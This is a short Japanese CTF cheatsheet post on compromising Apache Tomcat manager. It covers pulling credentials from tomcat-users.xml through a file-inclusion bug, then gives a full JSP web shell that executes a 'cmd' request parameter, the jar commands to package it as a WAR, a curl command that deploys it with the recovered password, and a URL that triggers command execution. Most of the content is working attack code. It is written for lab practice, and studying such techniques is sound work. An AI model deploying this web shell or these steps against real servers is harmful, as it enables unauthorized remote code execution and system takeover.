 ```yaml
---
layout: post
title: "tomcat"
published : true
tags: CTF Common cheatsheet tomcat
---
```

## Tomcatマネージャーアプリケーションの発見
tcp/8080でオープンしていることが多い

## 資格情報の取得
LFIなどを利用して"tomcat-users.xml"を探す。ファイルパスは一例
```sh
/usr/share/tomcat9/etc/tomcat-users.xml

(SNIP...)
<role rolename="admin-gui"/>
<role rolename="manager-script"/>
<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
(SNIP...)
```
## web shellによるRCE
### Create file. [index.jsp]
```jsp
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
    String s = null;
    try {
      Process p = Runtime.getRuntime().exec(cmd,null,null);
      BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
      while((s = sI.readLine()) != null) {
        output += s+"</br>";
      }
    }  catch(IOException e) {   e.printStackTrace();}
   }
%>
<pre><%=output %></pre>
```
   
### warの生成
```sh
$ mkdir webshell
$ cp index.jsp webshell
$ cd webshell
$ jar -cvf ../webshell.war *
webshell.war is created
```
### Upload
```sh
curl --upload-file webshell.war -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?path=/webshell"
```

### RCE
```sh
http://megahosting.htb:8080/webshell/index.jsp?cmd=id
```